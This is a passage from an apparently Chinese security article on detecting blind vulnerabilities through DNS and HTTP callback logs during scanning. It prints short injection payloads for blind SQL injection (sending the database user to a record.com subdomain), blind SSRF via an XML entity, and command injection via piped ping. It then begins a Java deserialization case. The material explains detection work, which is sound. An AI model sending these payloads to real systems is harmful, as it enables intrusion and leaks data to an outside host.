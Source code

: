 #### ii. SQLi（无回显）

SQL 注入中无回显的情况是很常见的，但是有了 "Data Retrieval over DNS" 这种技术的话一切都变得简单了，前提是目标环境符合要求。[《HawkEye Log/Dns 在Sql注入中的应用》](http://docs.hackinglab.cn/HawkEye-Log-Dns-Sqli.html)这篇文章提供了一些常见数据库中使用 "Data Retrieval over DNS" 技术进行盲注的 Payloads。

```
payload: "... load_file(concat('\\\\',user(),'.record.com\\blindsqli'))
condition: {*.record.com LOG} in DNS queries LOGs

```

只要目标系统环境符合要求并且执行了注入的命令，那么就会去解析预先设置好的域名，同时通过监控平台能够拿到返回的数据。

![](http://drops.javaweb.org/uploads/images/2fcdf8c6ce312bb7e512e43a824dfb9fcd963b55.jpg)

#### iii. SSRF（无回显）

根据上面两个例子，熟悉 SSRF 的同学肯定也是知道怎么玩了：

```
payload: "... <!ENTITY test SYSTEM "http://record.com/?blindssrf"> ..."
condition: {http://record.com/?blindssrf LOG} in HTTP requests LOGs

```

#### iv. RCE（无回显）

命令执行/命令注入这个得好好说一下，我相信很多同学都懂得在命令执行无法回显的时候借用类似`python -m SimpleHTTPServer`这样的环境，采用回连的检测机制来实时监控访问日志。*nix 系统环境下一般是使用`curl`命令或者`wget`命令，而 windows 系统环境就没有这么方便的命令去直接访问一个链接，我之前常用的是`ftp`命令和 PowerShell 中的文件下载来访问日志服务器。现在，有了一个比较通用的做法同时兼顾 *nix 和 windows 平台，那就是`ping`命令，当 ping 一个域名时会对其进行一个递归 DNS 查询的过程，这个时候就能在后端获取到 DNS 的查询请求，当命令真正被执行且平台收到回显时就能说明漏洞确实存在。

```
payload: "... | ping xxflag.record.com ..."
condition: {xxflag.record.com LOG} in DNS queries LOGs

```

![](http://drops.javaweb.org/uploads/images/f4a9075ed9eea85caeedd743b0ba87b2dce115f4.jpg)

通过这几个 "间接判断" 的示例，相信大家也大概了解了在漏洞无回显的情况下如何进行扫描和检测了。更多的无回显 Payloads 可以通过[http://ceye.io/payloads](http://ceye.io/payloads)进行查看。（勿喷）

0x03 应急实战举例
=====

原理和例子扯了这么多，也该上上实际的扫描检测案例了。

### Java 反序列化（通用性举例，ftp/ping）

首先说说 15 年底爆发的 Java 反序列化漏洞吧，这个漏洞应该算得上是 15 年 Web 漏洞之最了。记得当时应急进行扫描的时候，WebLogic 回显 PoC 并没有搞定，对其进行扫描检测的时候使用了回连的方式进行判断，又因为待测目标包含 *nix 和 windows 环境，所以是写了两个不同的 Payloads 对不同的系统环境进行检测，当时扫描代码的 Payloads 生成部分为：

**i. *nix**

![](http://drops.javaweb.org/uploads/images/2c0b0a151d9980be85c16280871a0f03e4403a0a.jpg)
